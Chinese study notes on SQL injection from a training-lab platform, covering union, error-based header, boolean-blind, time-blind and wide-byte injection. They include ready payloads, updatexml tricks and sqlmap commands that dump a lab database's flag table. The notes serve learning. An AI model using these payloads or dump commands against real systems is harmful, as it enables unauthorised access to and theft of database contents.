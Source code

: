 ### SQL注入总结

#### 报错注入

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name='table_name'`
- 根据列名查询数据, 注意limit


#### Header注入

- 第一步, 爆破出密码
- 第二步, `User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select database())),1),'2') -- q`, 查看报错信息
- 第三步, 查表名
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),'2') -- q`
- 第四步, 查列名`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='head_error' and table_name='flag_head' limit 0,1)),1),'2') -- q`
- 第五步, 查字段内容
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 0,1)),1),'2') -- q`

**注入点除了`User-Agent`,还有`Referer`,`HTTP_X_FORWARDED_FOR`**

> updatexml()  
这个函数有三个传参  
update是更新的意思 xml是一种文档的类型  
updatexml(目标xml内容，xml文档路径，更新的内容)  
updatexml(1,concat(0x7e(select database())0x7e),1)  
以上这条语句的意思为  
更新xml文档（需要更新的文档,concat(0x是16进制7e转换后是~（子查询爆库名），更新后的内容）  
之前我们讲了数据库路径出现符号是会爆错的的0x7e这个经过16进制转换后变成~
以上语句实际上是更新xml文档，但我们在xml路径中写了子查询它，我们输入了特殊符号，数据库路径出现特殊符号是会爆错的，但是报错的时候它就已经执行了那个子查询的代码了  
updatexml()这个函数一般是配合and或者是or使用的，他和联合查询不同，不需要在意什么字段数  


#### 布尔盲注

- 第一步, 判断传入参数类型,参数添加`and 1=1`页面无变化,参数添加`and 1=2`, 页面有变化，说明可以判断sql语句被执行，且传入参数为数字。存在SQL注入
- 第二步, 现在构造一个语句猜测数据库名长度,`and length(database())>10`, 前端显示正常, 这样一直猜测到数据库名字长度
- 第三步, 现在构造一个语句猜测数据库名第一个字母的ascii码是否大于100,`and ascii(substr(database(),1,1))>100`,就这样尝试到`and ascii(substr(database(),1,1))=107`, 得到第一个字符的ascii码是107
- 使用bp爆破模块猜解数据库名
- 使用sqlmap得到表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia --tables`
- 使用sqlmap得到字段名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia -T loflag --columns`
- 使用sqlmap得到记录`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id --threads 50 -D kanwolongxia -T loflag -C flaglo --dump`

> 盲注总结:
1.盲注是在没有回显，关闭错误页面，采用的一种测试方法，有点费时间  
2.sqlmap 在参数错误的时候有时候不会提示。。。有时候指定参数都跑不出来, 需要提高等级  
3.不同的数据库可以使用的空耗时间的函数也不尽相同  


#### 时间盲注
- 第一步,通过sleep函数确定存在时间盲注`" and sleep(4) -- qww`
- 第二步,依次确定数据库名字`http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1" and if(substr(database(),1,1)="k",sleep(3),1) -- qww`
- 第三步,sqlmap跑出数据库名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --flush-session --current-db --level=3 --risk=3`
- 第四步,sqlmap跑出表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia --tables`
- 第五步,sqlmap脱库`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia -T loflag -C flaglo --dump`

> 相关函数
length() => 返回(字符串)长度的数值  
substr([],[A],[B]) => 返回[]值中，[A]开始[B]位后的字符值  
ascii() => 通过数值返回(此处内容)的阿斯克码  
sleep()  
if(expr1.expr2,expr3) =>判断语句，第一个正确执行2，错误执行3  


#### 宽字节注入

*注意到单引号前加了反斜杠，使我们不能闭合字符串。所以在URL中不能出现单引号。其他和普通的GET注入一样*
- 第一步, 判断闭合字符  
只要出现单引号，前面就会加上反斜杠，有反斜杠就无法实现注入。现在考虑怎么把它加的反斜杠吃掉。反斜杠和前面的一个字符组成一个整体就不会去转义单引号了。这个整体就是宽字节。
对于中文这样的字符集，一个字符是用多个字节表示的。比如GBK编码用两个字节表示，UTF-8用3个字节表示。如果输入一个字节与反斜杠组成GBK的某一个汉字，反斜杠就不转义了。输入的字节必须大于127，否则就会被当成ASCII了。所以输入个0xdd试一下，通常编辑器下是输不了大于127的字节的，正好GET要进行URL编码，只要输入编码后的%dd就行了。所以我选择的闭合字符是%dd’
- 第二步,判断是否存在注入,按显错注入的步骤，输入`%dd' and 1=1 — q, %dd' and 1=2 — q`结果不一样，存在注入
- 第三步,查出字段`%dd' order by 2 — q`
- 第四步,寻找输出点`%dd’ union select 1,2,3 — q`


>一、原理  
magic_quotes_gpc（魔术引号开关）  
magic_quotes_gpc函数在php中的作用是判断解析用户提交的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。  
单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线  
GBK全称《汉字内码扩展规范》,gbk是一种多字符编码。他使用了双字节编码方案，因为双字节编码所以gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节。




封神台SQL注入-HEADER注入
https://www.freesion.com/article/79131245351/

封神台SQL注入-盲注
https://www.pianshen.com/article/12321993968/

封神台SQL注入-延时注入
https://www.pianshen.com/article/49251993962/

封神台SQL注入-宽字节注入
https://www.pianshen.com/article/47421993964/


工具: Nmap--支持密码破解,但是不专业 ;dicsearch--扫描目录  ;  hydra--专业的密码破解
